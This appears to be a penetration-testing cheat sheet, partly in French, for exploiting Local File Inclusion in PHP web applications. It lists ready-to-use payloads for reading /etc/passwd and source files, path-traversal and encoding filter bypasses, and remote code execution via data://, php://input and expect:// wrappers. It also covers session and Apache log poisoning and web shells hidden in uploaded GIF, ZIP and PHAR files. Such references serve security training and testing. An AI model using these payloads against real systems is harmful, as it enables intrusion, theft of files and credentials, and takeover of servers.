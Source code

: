 # Basic

Basic LFI

```sh
/index.php?language=/etc/passwd
```

LFI with path traversal

```sh
/index.php?language=../../../../etc/passwd
```

LFI with name prefix

```sh
/index.php?language=/../../../etc/passwd
```

LFI with approved path

```sh
/index.php?language=./languages/../../../../etc/passwd

```

---
# Bypass Techniques

Bypass basic path traversal filter

```sh
/index.php?language=....//....//....//....//etc/passwd
```

Bypass filters with URL encoding

```sh
/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64
```

Bypass appended extension with path truncation (obsolete)

```sh
/index.php?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]
```

Bypass appended extension with null byte (obsolete)

```sh
/index.php?language=../../../../etc/passwd%00
/index.php?language=../../../../etc/passwd%00.php
```

Read PHP with base64 filter

```
/index.php?language=php://filter/read=convert.base64-encode/resource=config
```

---
# Code Execution 
### With PHP Wrappers

Verifier la version de PHP `/etc/php/X.Y/apache2/php.ini`

> Si on n'a `allow_url_include = On` Ou `extension=expect`


#data

```sh
/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
```

#input 

```sh
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"
```

#expectr 

```sh
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```

### With Session 

Read PHP session parameters

```sh
/index.php?language=/var/lib/php/sessions/sess_[SESSIONS_ID]
```

Poison PHP session with web shell

```sh 
/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E  
```

RCE through poisoned PHP session 

```sh
/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id
```

### Log-Poisoning 

L'empoisonnement des journaux est une technique utilisée pour obtenir un shell inversé à partir d'une vulnérabilité LFI. 
Pour le faire fonctionner, un attaquant tente d'injecter une entrée malveillante dans le journal du serveur (user-agent).

Fichier journal apache pour avoir la possibilité d'utiliser l'empoisonnement du journal:

```http
/var/log/apache2/access.log
/var/log/apache2/error.log
/var/log/apache2/other_vhosts_access.log
```

Pour que cela se produise, le répertoire doit disposer des autorisations de lecture et d'exécution


Poison server log

```sh
curl -s "http://<SERVER_IP>:<PORT>/index.php" -A '<?php system($_GET["cmd"]); ?>'
```

RCE through poisoned PHP session 

```sh
/index.php?language=/var/log/apache2/access.log&cmd=id  
````

```http
http://vulnweb.com/var/log/apache2/access.log&cmd=id
```

----
# LFI + Upload

#GIF

```sh
# Create malicious image
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif

# RCE with malicious uploaded image
/index.php?language=./profile_images/shell.gif&cmd=id
```

#ZIP 

```sh
# Create malicious zip archive 'as jpg'
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php

# RCE with malicious uploaded zip
/index.php?language=zip://shell.zip%23shell.php&cmd=id

````

#PHAR 

```sh
## content of rshell.php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
?>

# Create malicious phar 'as jpg'
php --define phar.readonly=0 rshell.php && mv shell.phar shell.jpg

# RCE with malicious uploaded phar
/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```
